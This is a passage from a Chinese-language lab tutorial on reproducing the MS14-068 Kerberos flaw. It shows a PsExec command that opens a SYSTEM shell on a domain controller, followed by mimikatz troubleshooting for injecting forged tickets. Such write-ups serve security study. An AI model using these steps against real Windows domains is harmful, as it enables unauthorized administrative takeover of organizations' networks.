

再次访问域控的共享文件，即可发现已经成功列出目录了



#### 拿下域控

写入成功后，使用PsExec.exe以管理员权限运行连接域控

```bash
psesec.exe -accepteula \\IPaddress -s cmd.exe
```



执行命令成功



可以观察到命令提示符已经变了，且用户权限为域控的 `system` 权限（由于 `Psexec64.exe` 的 `- s` 原因）。看 `IP` 地址也可知晓已经成功登陆域控机器了。




---

### 排错笔记

**问题1：mimikatz 导入凭证后依然 “拒绝访问” 域控文件**

#### 可能点一：`mimikatz` 将凭证注入内存不成功

mimikatz 在注入凭证后，使用”kerberos::list” 看一下是否当前凭证只有一个，若只有一个则说明注入成功。
若有多个，如下图所示：



则说明伪造的凭证 **“可能”** 注入成功，但是后续访问域控共享文件 **“任然”** 可能失败。

**解决方法：**

   先执行 `kerberos::purge`,再执行`kerberos::list` 查看是否清空，之后再使用 MS14-068生成后导入 查看是否只有一个凭证 如果只有一个凭证则导入成功

若一个都没有，`”kerberos::list” `为空，则说明凭证注入失败，则需要多试几次，或者使用更高级权限的 `mimikatz` 注入试试

#### 可能点二：域控未安装 “域证书服务”

需要安装这个服务，才能成功进入域控文件共享。排查是否是因为未安装该服务。


---

## 总结

本次我们学习了以下知识点

* Kerberos 协议 和 基本原理
* ST 服务票据流程
* MS14-068 漏洞复现和排错

---

## 扩展阅读

* https://lionking.top/2020/01/09/MS14-068%E6%8E%92%E9%94%99+%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0/
* https://blog.csdn.net/qq_42342141/article/details/109647101
* https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/RedTeam/OS%E5%AE%89%E5%85%A8/OS-Exploits.md
